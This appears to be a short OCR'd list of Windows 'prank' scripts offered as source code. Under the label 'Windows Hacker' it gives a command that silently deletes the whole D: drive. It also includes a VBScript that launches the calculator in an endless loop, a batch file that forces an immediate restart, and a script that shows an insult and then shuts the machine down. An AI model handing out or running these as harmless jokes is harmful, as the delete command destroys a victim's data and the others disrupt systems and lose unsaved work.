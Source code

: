 

======================================================

Windows Hacker :-
rd/s/q D:\

======================================================

Infinite Calculator :-

msgbox "Press OK to open my calculator"
do
Set shell=CreateObject("wscript.shell")
Shell.Run("calc.exe")
loop


=====================================================

Unfortunate Restart
@echo off
shutdown -r -f -t 00

======================================================

April Fool
msg * I don't like you
shutdown -c "Error! You are too stupid!" -s
